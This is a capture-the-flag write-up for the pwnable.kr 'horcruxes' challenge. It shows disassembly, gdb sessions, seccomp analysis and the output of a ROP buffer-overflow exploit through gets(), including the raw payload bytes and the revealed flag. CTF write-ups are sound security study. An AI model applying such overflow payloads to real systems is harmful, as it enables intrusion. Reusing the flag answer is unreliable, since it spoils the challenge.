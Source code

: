 ### horcruxes
It says:
```
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and ROP it!
author: jiwon choi

ssh horcruxes@pwnable.kr -p2222 (pw:guest)
```

and from the shell:
```
horcruxes@ubuntu:~$ ls -l
total 20
-rwxr-xr-x 1 root root 12424 Aug  8 07:16 horcruxes
-rw-r--r-- 1 root root   131 Aug  8 07:16 readme
horcruxes@ubuntu:~$ cat readme
connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn privilege.
rop it to read the flag.

horcruxes@ubuntu:~$ 
```
The term `rop` I think it's "return oriented programming"
No C file:(
looking at the assembly this is the flow in general:
```
main -> alarm@plt (calls alarm so that you can not run it forever)
main -> hint -> puts@plt
main -> init_ABCDEFG -> some things related to random numbers
main -> seccomp_init@plt
main -> seccomp_rule_add@plt
main -> seccomp_rule_add@plt
main -> seccomp_rule_add@plt
main -> seccomp_rule_add@plt
main -> seccomp_rule_add@plt
main -> seccomp_load@plt
main -> ropme -> calls the function A,B,C,D,E,F,G and do all kind of checks
```
#### hint func:
just prints:
"
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!
"
and returns

 ####  init_ABCDEFG func:
 the `open` command in the beggining, opens `/dev/urandom`:
 ```
 (gdb) x/16cb 0x80a0577
0x80a0577:	47 '/'	100 'd'	101 'e'	118 'v'	47 '/'	117 'u'	114 'r'	97 'a'
0x80a057f:	110 'n'	100 'd'	111 'o'	109 'm'	0 '\000'	47 '/'	100 'd'	101 'e
 ``` 
 Not sure what exactly it does with all these random numbers, but it does not ask for any input from the user.

After main returns from `init_ABCDEFG`, it starts a seccomp initialization, probably similar to what it did in the 
`asm` challenge.
and then it calls `ropme`

#### ropme func:
It reads ueser's input in 3 different places, 
1. with scanf("%d") , this is where the choose a "menu".
If the user enters one of the random values assigend to one of the "horcruxes" then he gets to enter to the coresponding function. But the problem is that we want to neter all of them.
2. with getchar(), - right after the scanf there is a getchar which does not seem to be used.
3. After comparing the input of the `scanf` to each `horc` , there is the `gets` function where the user 
answers "How many EXP did you earned?" The user should enter the sum of the EXP in the horcruxes.

```
0809ff05 <G>:
 809ff05:       55                      push   %ebp
 809ff06:       89 e5                   mov    %esp,%ebp
 809ff08:       83 ec 08                sub    $0x8,%esp
 809ff0b:       a1 7c 20 0a 08          mov    0x80a207c,%eax
 809ff10:       83 ec 08                sub    $0x8,%esp
 809ff13:       50                      push   %eax
 809ff14:       68 e8 04 0a 08          push   $0x80a04e8
 809ff19:       e8 22 fd ff ff          call   809fc40 <printf@plt>
 809ff1e:       83 c4 10                add    $0x10,%esp
 809ff21:       90                      nop
 809ff22:       c9                      leave  
 809ff23:       c3                      ret   
```

regarding the code in `ropme`:

```
80a00df:	83 c4 10             	add    $0x10,%esp
 80a00e2:	83 ec 0c             	sub    $0xc,%esp
 80a00e5:	8d 45 8c             	lea    -0x74(%ebp),%eax
 80a00e8:	50                   	push   %eax
 80a00e9:	e8 62 fb ff ff       	call   809fc50 <gets@plt>
 80a00ee:	83 c4 10             	add    $0x10,%esp
 80a00f1:	83 ec 0c             	sub    $0xc,%esp
 80a00f4:	8d 45 8c             	lea    -0x74(%ebp),%eax
 80a00f7:	50                   	push   %eax
 80a00f8:	e8 23 fc ff ff       	call   809fd20 <atoi@plt>
 80a00fd:	83 c4 10             	add    $0x10,%esp
 80a0100:	89 c2                	mov    %eax,%edx
 80a0102:	a1 78 20 0a 08       	mov    0x80a2078,%eax
 80a0107:	39 c2                	cmp    %eax,%edx
```
I ran with `gdb` and exemained the number in 0x80a2078 `x/1wd 0x80a2078` and entered the value.
this does cause the code of the open-read-puts , but it fails with "Bad system call" probably because of the seccomp.

```
   0x0809ffa7 <+131>:	call   0x809fc60 <seccomp_rule_add@plt>//open
   0x0809ffbb <+151>:	call   0x809fc60 <seccomp_rule_add@plt>//read
   0x0809ffcf <+171>:	call   0x809fc60 <seccomp_rule_add@plt>//write
   0x0809ffe6 <+194>:	call   0x809fc60 <seccomp_rule_add@plt>//exit
```


After A LOT  of exepriments, I got somthing:

```
Starting program: /home/horcruxes/horcruxes 
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:
Breakpoint 2, 0x080a0026 in ropme ()
(gdb) x/1wd 0x80a2088
0x80a2088 <a>:	172969048
(gdb) c
Continuing.
172969048

Breakpoint 1, 0x080a0030 in ropme ()
(gdb) c
Continuing.
You found "Tom Riddle's Diary" (EXP +172969048)
[Inferior 1 (process 24978) exited normally]
(gdb) disas
No frame selected.
(gdb) 
```
The idea: when "choosing" menu X , the program compare X to the value in 0x80a2088, so I examine the value and enter it. When running again, I get:
`You found "Tom Riddle's Diary" (EXP +142588352)` so, it changes every call, probably due to the random initialization.

I since `scanf("%d")` and `getchar()` are fine ,the only way to explot is with the `gets`.
I though that right after returning from `gets` we should return to the horcruxes, but actually this is impossible,
since the $eip of the return address is pushed to the stack in a lower address then the address of the buffer.
so it's possible to overrite the $ebp wich contain the value of returning from `ropme`.
So accroding to some calculations we need to fill 120 bytes and then to fille with the adresses of the horcruxes.
It indeed worked!


```
horcruxes@ubuntu:/tmp/hordafna$ python hor.py 
[+] Opening connection to 0 on port 9032: Done
<pwnlib.tubes.remote.remote object at 0x7fd84e1a6cd0>
Voldemort concealed his splitted soul inside 7 horcruxes.

Find all horcruxes, and destroy it!



Select Menu:
How many EXP did you earned? : 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaK\xfe   j\xfe   \x89\xfe   \xa8\xfe   ��   ��  \x05\xff   ��   
You found "Tom Riddle's Diary" (EXP +1637502302)
You found "Marvolo Gaunt's Ring" (EXP +692583410)
You found "Helga Hufflepuff's Cup" (EXP +-1908498685)
You found "Salazar Slytherin's Locket" (EXP +126977693)
You found "Rowena Ravenclaw's Diadem" (EXP +882330451)
You found "Nagini the Snake" (EXP +-1578568545)
You found "Harry Potter" (EXP +-1169047827)

```
The problem that got me crazy  is that I couldnt jump back to `ropme`, I got a segmentation fault.
Also I could not debug it with GDB as it needs to be entered interactivly.

I then found out it is possible to enter binary data right from the keyboard!
It is configurable from a files called `~/.inputrc`, 
With my terminal `xfce4-terminal` on xubuntu , I was able to enter the values 
`\x09\x00\x0a\x08` by typing:
ctrl+v+i, ctrl+@, ctrl+v+j, ctrl+v+h.
This can be tested by running 
`$ cat - > test`
entering the values from the keyboard, then ctrl+c
and `$ xxd test` shows the hexas.
apparently the problem is that the address contain `\x0a` which is end-of-line which tell `gets` to stop getting
input from the user and also replace `\x0a` with `\x00` to indicate end of string.
So a solution I found somewhere tells to jump to the address in `main` that calls `ropme`.
One more thing I read is that python does not overflow when adding, so when it adds the experiences it should
mimc C's addition which does overflow. I didn't implemented it, luckily `C` it didn't overflow in my try: 

```
horcruxes@ubuntu:/tmp/hordafna$ python hor.py 
[+] Opening connection to 0 on port 9032: Done
<pwnlib.tubes.remote.remote object at 0x7fd84e1a6cd0>
Voldemort concealed his splitted soul inside 7 horcruxes.

Find all horcruxes, and destroy it!



Select Menu:
How many EXP did you earned? : 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaK\xfe   j\xfe   \x89\xfe   \xa8\xfe   ��   ��  \x05\xff   ��   
idx = 0
You found "Tom Riddle's Diary" (EXP +1637502302)

1637502302
idx = 1
You found "Marvolo Gaunt's Ring" (EXP +692583410)

692583410
idx = 2
You found "Helga Hufflepuff's Cup" (EXP +-1908498685)

-1908498685
idx = 3
You found "Salazar Slytherin's Locket" (EXP +126977693)

126977693
idx = 4
You found "Rowena Ravenclaw's Diadem" (EXP +882330451)

882330451
idx = 5
You found "Nagini the Snake" (EXP +-1578568545)

-1578568545
idx = 6
You found "Harry Potter" (EXP +-1169047827)

-1169047827
sum: -1316721201
[*] Switching to interactive mode
Select Menu:$ 1
How many EXP did you earned? : $ -1316721201
Magic_spell_1s_4vad4_K3daVr4!

[*] Got EOF while reading in interactive

```
One thing which is still a mistary to me is how it was able to open the  flag with the seccomp loaded.
https://cragy0516.github.io/blukat-horcruxes/
http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html
https://stackoverflow.com/a/15629298/1019140
